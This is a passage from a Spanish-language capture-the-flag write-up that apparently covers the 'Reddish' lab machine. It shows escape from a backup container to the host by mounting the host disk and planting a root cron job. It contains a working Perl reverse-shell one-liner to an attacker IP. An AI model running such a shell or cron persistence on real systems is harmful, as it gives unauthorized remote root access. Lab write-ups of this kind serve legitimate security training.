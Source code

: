 ## Intrusión→ Máquina Base 10.10.10.94

Actualmente nos encontramos en la máquina `172.20.0.3 - backup` como el usuario `root`

Enumerando la máquina se encuentra particiones de discos y se va a proceder a montarlos:

![Untitled](/assets/img/Reddish/Pasted image 20240313160619.png)

Montándonos la ruta `/dev/sda2`

![Untitled](/assets/img/Reddish/Pasted image 20240313160907.png)

Para ganar una consola interactiva se va a seguir el mismo procedimiento anterior de las tareas `cron`

Realizando un archivo `tarea` que contendrá:

```bash
* * * * *  root sh /tmp/reverse.sh
```

Copiándolo en la ruta:

```bash
cp tarea ./mnt/test/etc/cron.d
```

y el archivo `reverse.sh` contendrá una instrucción en perl que nos mandara una consola a nuestra IP atacante

```bash
perl -e 'use Socket;$i="10.10.14.12";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![Untitled](/assets/img/Reddish/Pasted image 20240313162950.png)

Obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240328113852.png)

Se habrá ganado acceso a la máquina base `10.10.10.94`

![Untitled](/assets/img/Reddish/Pasted image 20240328114000.png)

Nuestro esquema final de red quedará de la siguiente manera:

![Untitled](/assets/img/Reddish/Pasted image 20240328114032.png)
